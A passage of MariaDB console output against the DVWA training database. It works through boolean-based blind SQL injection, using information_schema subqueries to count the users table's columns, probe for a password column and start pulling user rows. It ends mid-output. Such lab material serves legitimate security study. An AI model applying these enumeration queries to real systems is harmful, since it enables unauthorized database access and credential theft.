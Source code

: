 ```bash

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>8;
Empty set (0.001 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>5;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.001 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>7;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.001 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')=8;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.001 sec)

MariaDB [dvwa]> select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='username';
+----------+
| count(*) |
+----------+
|        0 |
+----------+
1 row in set (0.002 sec)

MariaDB [dvwa]> select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='password';
+----------+
| count(*) |
+----------+
|        1 |
+----------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(*) from information_schema.columns where table_schema='dvwa' and table_name='users' and column_name='password')=1;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.002 sec)

MariaDB [dvwa]> select user from users limit 0,1;
+-------+
| user  |
```